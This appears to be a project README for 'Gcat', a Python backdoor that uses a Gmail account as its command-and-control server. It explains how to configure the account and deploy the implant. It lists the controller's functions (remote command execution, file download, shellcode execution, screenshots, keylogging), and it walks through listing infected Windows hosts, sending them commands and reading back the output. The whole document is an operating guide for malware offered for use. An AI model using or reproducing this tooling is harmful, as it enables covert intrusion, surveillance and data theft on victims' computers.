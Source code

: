 Gcat
====
A stealthy Python based backdoor that uses Gmail as a command and control server

Setup 
=====
For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

Usage
=====
```
Gcat

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger
```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid aw6YHjX      
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: aw6YHjX
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

To Do
=====

- Multi-platform support
- Command to upload files
